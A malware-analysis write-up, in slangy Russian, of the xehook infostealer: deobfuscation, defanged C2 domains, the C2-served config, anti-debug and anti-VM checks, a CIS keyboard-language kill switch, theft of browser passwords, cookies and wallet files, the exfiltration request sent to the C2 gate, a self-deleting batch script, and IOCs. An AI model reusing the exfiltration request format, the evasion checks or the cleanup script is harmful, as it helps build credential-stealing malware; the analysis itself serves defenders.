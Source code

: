 ```yaml
---
title:  "Malware Analysis - xehook stealer analysis"
date:   2024-02-29 00:01:00 +0300
author: cozy
categories: [malware, stealer]
---
```


### Introduction
Great Stealer, реально крутой стилак.
SHA256: `a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c`

### Stage 1
натравим de4dot
![](/images/xehook/1.png)
вооот сразу видно наш народный virtualProtect и createThread. Запускаем, дампим и там будут байтики 0x4d 0x5a то есть **MZ** сигнатура.
![](/images/xehook/2.png)

### xeHook stealer
obfuscated with confuserEx
![](/images/xehook/3.png)

use de4dot
![](/images/xehook/4.png)
готовый бинарь кайф
![](/images/xehook/5.png)

Первый метод получает рандомную строку размером в 32 байта из символов "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789". Example: "OYGSQGUGRRQKK07OWWLYT6TE25JAIGKN". Данные байты в конечном итоге будут являться названием файла.
![](/images/xehook/6.png)
следующий метод декодит C2: `https://trecube[.]com/`, `https://nc1337[.]online/`, а также обращается к C2. Если C2 возвращает `index.html` то ВПО работает с этим C2. В частности первый C2 вернул `index.html` поэтому все дальнейшие обращения будут к этому серверу.

Следующий метод конкатенирует строки с C2 для дальнейшего обращения и получения конфигурации: `https://trecube[.]com/getjson.php?id=40`. 
Получаемая конфигурация:
```Text
"{\r\n\t\"debug\": \"0\",\r\n\t\"emulate\": \"0\",\r\n\t\"virtualbox\": \"0\",\r\n\t\"virustotal\": \"0\",\r\n\t\"error\": \"0\",\r\n\t\"errorname\": \"NONE\",\r\n\t\"errtextbox\": \"NONE\",\r\n\t\"competitor\": \"0\",\r\n\t\"selfmelf\": \"1\",\r\n\t\"domaindetect\": \"facebook.com;linkedin.com;twitter.com\",\r\n\t\"filext\": \"*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*\"\r\n}"
```
проверка на всякие залупы такие как, будет ли проверяться на vm, будет ли проверяться на debug. Также *domaindetect* это домены с которых желательно собирались бы креды??, а *filext* это расширения файлов которые будут спизжены в дальнейшем.

#### Debug features

Также присутсвтуют проверки на debug
![](/images/xehook/7.png)
![](/images/xehook/8.png)
В данном случае проверяются следующие запущенные процессы (Маловато?):
1. "processhacker"
2. "netstat"
3. "netmon"
4. "tcpview"
5. "wireshark"
6. "filemon"
7. "regmon"
8. "cain"
Check Ticks
![](/images/xehook/9.png)
Также с помощью WMI чекатеся фичи процессора путем выполнения команды: `Select * from Win32_ComputerSystem`
![](/images/xehook/10.png)
Идет обращение к `http://ip-api[.]com/line/?fields=hosting`
![](/images/xehook/11.png)
Также идет проверка на языки клавиатуры, в частности если один из следующих языков присутсвтует, то ВПО завершает свое выполнение:
1. "ru-RU" (Наши братушки получается??)
2. "kk-KZ"
3. "ro-MD"
4. "uz-UZ"
5. "be-BY"
6. "az-Latn-AZ"
7. "hy-AM"
8. "ky-KG"
9. "tg-Cyrl-TJ"
![](/images/xehook/12.png)
#### Stealer features
Обращается к `http://ip-api[.]com/json/?fields=11827` которая в формате json отдает инфу о тачке
```json
{
    "country": "<country>",
    "countryCode": "<replaced>",
    "city": "<replaced>",
    "zip": "<replaced>",
    "isp": "<holding here_replaced>",
    "org": "<provider_replaced>",
    "as": "<some_data_too_about_provider_replaced>",
    "query": "<ip_here_replaced>"
}
```
кароч я все зареплейсил, но там буквально вся инфа.
весь пиздинг идет в этом методе.
![](/images/xehook/13.png)

пиздинг идет по всем расширениям из C2, а именно:
`*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed`
все найденные файлы данное ВПО упаковывает в .zip архив, формирует файл из тех 32 байтов которые получались в первом методе путем перестановки строки"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".
Данный файл сохраняется по пути `%LOCALAPPDATA%`. 
В частности: `%LOCALAPPDATA%\53Q98KXOBEQ1UDM2WFKRS8MOQDWDG1EL`

Также пиздятся autofill data, cookie и все что можно с браузеров спиздить.
Также делается screenshot экрана.
В данном методе формируется запрос, которые отправляется на C2. В частности формирутеся такой запрос: 

```Text
https://trecube[.]com/gate[.]php?id=40&build=new_cloudnever&passwords=<pass_count>&cookies=<cookies_count>&username=<username>&country=<country>&ip=<ip_here>&BSSID=<md5hash_of_procID_and_Diskdrive_serialNumber>&wallets=<amount_of_wallets>&token=xehook40363717&ext=0&filters=0&pcname=<pc_name>&cardsc=0&telegram=False&discord=False&steam=False&domaindetect=
```


Данный запрос отправляется на C2 вместе с файлом который является большой зипкой,и затем происходит удаление данного файла.
![](/images/xehook/14.png)

В конце выполнения ВПО формирует *.bat* скрипт, а именно скрипт с названием *delete.bat* и сохраняет его в %TEMP%
![](/images/xehook/15.png)

Содержимое данного скрипта:
```cmd
@echo off
ping 127.0.0.1 -n 2 > nul
@ "del ""%DESKTOP%\a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin"""
@"del ""%TEMP%\delete.bat"""
```

В данном скрипте происходит пинг локалхоста, удаление оригинального исполняемого файла, а также удаленние .bat скрипта.

### Stolen data
Вся спизженная дата хранится в *%LOCALAPPDATA%* с рандомным именем состоящим из перестановки 32-х байтов  "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".

Данный файл состоит из зипок .zip, но его можно воспринимать как одну целую зипку, так что его можно просто распаковать.
Вот что хранится внутри данного .zip файла:
![](/images/xehook/16.png)
Где:
1. Autofills это директория в которой находятся файлик со спизженой autofill датой из браузеров, в частности:
![](/images/xehook/17.png)
![](/images/xehook/18.png)
2. Cookies - спизженные куки файлики.
![](/images/xehook/19.png)
![](/images/xehook/20.png)
3. Files - все файлы с расширениями указанными в конфигурационном файле с C2, а именно `*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*`
![](/images/xehook/21.png)
![](/images/xehook/22.png)
Внутри данных директорий находятся файлы с расширенями, в частности пример:
![](/images/xehook/23.png)
4. About PC.txt - там находится вся инфа о пк, а также ахуенная stealerNote (записька стилера ;)) )
![](/images/xehook/24.png)
Также она плейнтекстом
```Text
          _                 _    
__  _____| |__   ___   ___ | | __
\ \/ / _ \ '_ \ / _ \ / _ \| |/ /
 >  <  __/ | | | (_) | (_) |   < 
/_/\_\___|_| |_|\___/ \___/|_|\_\

xehook Stealer — https://t[.]me/xehook

Build location: a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin
Build tag: <replaced>
Build version: 2.0.8 Stable

Launch time: <replaced>
IP address: <replaced> 
Postcode: <replaced>
Location: <replaced>

Computer: <replaced>
Username: <replaced>
OS: Windows 10 Pro (x64)
Language: <replaced>

Resolution: <replaced>
GPU: <replaced>
CPU: <replaced>
RAM: <replaced>
MAC: <replaced>

Device HWID: <md5_hash_replaced>
```
ну к слову записка реально ахуенная
5. Passwords.txt - файл с пароля с браузеров, а именно hostname - это url, Username - логин, Password - пароль, Browser - ну клиент типа.
![](/images/xehook/25.png)
6. Screenshot.jpg - скриншот во время выполнения ВПО. В частности делается внутри данного метода
![](/images/xehook/13.png)

### IOCS

| C2                       |
|--------------------------|
| https://trecube[.]com/   |
| https://nc1337[.]online/ |

| SHA256                                                           | File   |
| ---------------------------------------------------------------- | ------ |
| a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c | Stage1 |
| daea71a3094e0c90554a77e95b0b354d1515f99e70fa5013f09302a5bb04dde0 | xehook |


### Conclusion
крутой стилак че сказать норм.
